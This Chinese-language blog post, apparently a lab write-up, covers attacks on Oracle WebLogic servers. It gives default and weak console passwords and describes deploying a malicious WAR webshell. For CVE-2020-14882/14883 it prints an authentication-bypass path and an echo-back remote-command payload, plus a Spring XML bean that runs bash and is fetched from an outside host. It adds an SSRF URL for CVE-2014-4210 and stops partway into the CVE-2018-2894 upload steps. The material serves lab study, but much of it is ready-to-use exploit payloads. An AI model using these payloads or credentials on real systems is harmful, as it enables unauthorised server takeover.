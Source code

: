 # WebLogic 弱口令&amp;文件上传&amp;SSRF

  
  
&lt;!--more--&gt;  
## 0x01 前言  
将 WebLogic 一些其他漏洞全部放在这篇文章里面了，一共是以四个下漏洞  
- CVE-2014-4210 SSRF  
- CVE-2018-2894 任意文件上传  
- CVE-2020-14882/CVE-2020-14883 未授权 RCE  
- 弱口令 getshell  
## 0x02 环境搭建  
https://www.penson.top/article/av40  
## 0x03 弱口令getshell  
访问 WebLogic `/console` 接口，可能存在的弱口令如下  
  
| username    | password    |  
| ----------- | ----------- |  
| system      | password    |  
| weblogic    | weblogic    |  
| guest       | guest       |  
| portaladmin | portaladmin |  
| admin       | security    |  
| joe         | password    |  
| mary        | password    |  
| system      | security    |  
| wlcsystem   | wlcsystem   |  
| wlcsystem   | sipisystem  |  
常见的弱密码  
```txt  
weblogic1    
weblogic12    
weblogic123    
weblogic@123    
webl0gic    
weblogic#    
weblogic@  
```  
### 漏洞复现  
先使用弱口令登陆，点击部署下的安装  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409051459614.png)
选择上传文件  
上传恶意的 war 包，这个恶意 war 包是由哥斯拉生成，压缩为 zip 之后，将后缀名改为 .war 的  
继续默认点击位于上方的下一步，直至遇到并点击完成  
接着启动之前部署的war包  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409051505632.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409051506215.png)
## 0x04 CVE-2020-14882/CVE-2020-14883 未授权 RCE  
### 影响版本  
Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0  
### 漏洞原理  
CVE-2020-14883：允许未授权的用户通过目录穿越结合双重URL编码的方式来绕过管理控制台的权限验证访问后台  
CVE-2020-14882：允许后台任意用户通过HTTP协议执行任意命令  
### 漏洞复现  
主要是以下两个CVE的结合利用，显示未授权访问后台，然后通过后台可以执行命令的接口实现RCE  
#### CVE-2020-14883  
正常情况下，没有登陆Weblogic的话访问`console`后台就会直接302跳转到`/console/login/LoginForm.jsp`登陆界面。  
但是，通过目录穿越结双重URL编码就能绕过认证实现未授权访问`console`后台  
对应的`payload`为  
`/console/css/%252e%252e%252fconsole.portal`  
#### CVE-2020-14883  
前面的CVE虽然可以访问后台，但是低权限用户、无法安装应用，此处我们需要借助CVE-2020-14883这个漏洞的利用方式有两种，一种是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，一种是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`  
##### 方式一  
`com.tangosol.coherence.mvel2.sh.ShellSession`  
但此利用方法只能在`Weblogic 12.2.1`及以上版本利用，因为`10.3.6`并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类，  
直接访问如下URL即可  
`http://ip:7001/console/console.portal?_nfpb=true&amp;_pageLabel=&amp;handle=com.tangosol.coherence.mvel2.sh.ShellSession(&#34;java.lang.Runtime.getRuntime().exec(&#39;curl dnslog&#39;);&#34;)`  
有回显的payload  
```http
/console/css/%252e%252e%252fconsole.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]\{\%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]\{\%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20)\{\%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();
```  
执行的命令添加在http头部的cmd字段  
##### 方式二  
`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`  
这是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效  
首先，需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上。  
```xml  
&lt;?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34; ?&gt;  
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;  
   xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;  
   xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd&#34;&gt;  
    &lt;bean id=&#34;pb&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;&gt;  
        &lt;constructor-arg&gt;  
          &lt;list&gt;  
            &lt;value&gt;bash&lt;/value&gt;  
            &lt;value&gt;-c&lt;/value&gt;  
            &lt;value&gt;&lt;![CDATA[ping dnslog]]&gt;&lt;/value&gt;  
          &lt;/list&gt;  
        &lt;/constructor-arg&gt;  
    &lt;/bean&gt;  
&lt;/beans&gt;  
```  
通过如下URL，即可让weblogic加载这个XML，并执行其中的命令  
`/console/css/%252e%252e%252fconsole.portal?_nfpb=true&amp;_pageLabel=&amp;handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(&#34;http://example.com/rce.xml&#34;)`  
## 0x05 CVE-2014-4210 SSRF  
### 影响版本  
- Oracle WebLogic Server 10.0.2, 10.3.6  
### 漏洞原理  
Weblogic的`SearchPublicReqistries.jsp`接口存在`SSRF`漏洞，如果服务端或内网存在`Redis`未授权访问漏洞则可以进一步利用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409060006648.png)
### 漏洞利用  
SSRF漏洞存在于`/uddiexplorer/SearchPublicRegistries.jsp`，漏洞URL  
`/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&amp;txtSearchname=sdf&amp;txtSearchkey=&amp;txtSearchfor=&amp;selfor=Business&#43;location&amp;btnSubmit=Search&amp;operator=http://127.0.0.1:7001`  
### 0x06 CVE-2018-2894  
### 影响版本  
10.3.6，12.1.3，12.2.1.2，12.2.1.3  
### 漏洞原理  
weblogic如果开启了web服务测试页，则分别会在`/ws_utc/begin.do`以及`/ws_utc/config.do`这两个页面存在任意上传getshell漏洞  
默认不开启，所以此漏洞有一定的局限性  
### 漏洞复现  
登录上 console，点 `base_domain`，在 “配置” -&gt; “一般信息” -&gt; “高级” 中开启 “启用 Web 服务测试页” 选项  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/weblogic-%E5%BC%B1%E5%8F%A3%E4%BB%A4%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0ssrf/  

